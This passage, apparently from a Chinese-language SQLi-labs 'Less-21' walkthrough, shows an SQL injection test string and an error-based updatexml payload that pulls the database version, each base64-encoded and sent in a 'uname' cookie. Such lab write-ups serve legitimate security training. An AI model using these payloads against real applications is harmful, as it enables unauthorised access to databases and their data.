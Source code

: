 + 注入测试：
    ```bash
    Dumb' or '1'='1 （RHVtYicgb3IgJzEnPScx） # 页面显示很和谐 
    ```

![](img/Less-21.4.png)

+ 注入Payload:
    ```bash
    Dumb' and updatexml(1,concat('^',(select version()),'^'),1) or '1'='1(RHVtYicgYW5kIHVwZGF0ZXhtbCgxLGNvbmNhdCgnXicsKHNlbGVjdCB2ZXJzaW9uKCkpLCdeJyksMSkgb3IgJzEnPScx)

    Cookie: uname=RHVtYicgYW5kIHVwZGF0ZXhtbCgxLGNvbmNhdCgnXicsKHNlbGVjdCB2ZXJzaW9uKCkpLCdeJyksMSkgb3IgJzEnPScx
    ```
![](img/Less-21.5.png)
